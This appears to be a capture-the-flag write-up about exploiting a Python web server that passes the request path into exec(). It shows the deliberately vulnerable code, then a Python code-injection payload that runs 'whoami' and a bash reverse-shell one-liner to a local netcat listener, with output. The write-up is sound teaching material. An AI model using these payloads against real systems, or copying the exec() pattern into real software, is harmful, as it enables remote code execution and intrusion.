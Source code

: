 ## Exploiting the command injection vulnerability in the source code

A quick source code review shows that an `exec()` call is made here:

```python
 def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
            requested = os.path.join(docRoot, path[1:])
```

The `exec` function is just like an `eval`, it'll execute whatever python code has been passed to it. Here's documentation snippet:

```
exec(source, globals=None, locals=None, /)
    Execute the given source in the context of globals and locals.
    
    The source may be a string representing one or more Python statements
    or a code object as returned by compile().
    The globals must be a dictionary and locals can be any mapping,
    defaulting to the current globals and locals.
    If only globals is given, locals defaults to it.
```

So what the program does here is take the path in the GET request, formats it and stores the result in the `output` variable. Here's what happen if I test that part of the code manually in the python interactive interpreter.

```
>>> exec("output = 'Document: {}'".format("/test"))
>>> output
'Document: /test'
```

That `output` variable is not even used in the program and has been placed here just to introduce that command injection vulnerability. What I can do here is store an empty value in the `output` variable but add additional code after the `output` variable assignment.

I'll test this locally first in my python shell, first I'll validate that I can execute `whoami`:

```
>>> exec("output = 'Document: {}'".format("';__import__(\"os\").system(\"whoami\")#'"))
root
```

Ok so that works. Next I'll spawn a reverse shell with:

```
>>> exec("output = 'Document: {}'".format("';__import__(\"os\").system(\"bash -c 'bash -i >& /dev/tcp/127.0.0.1/4444 0>&1'\")#'"))

root@beholder:~# nc -lvnp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 38520
```
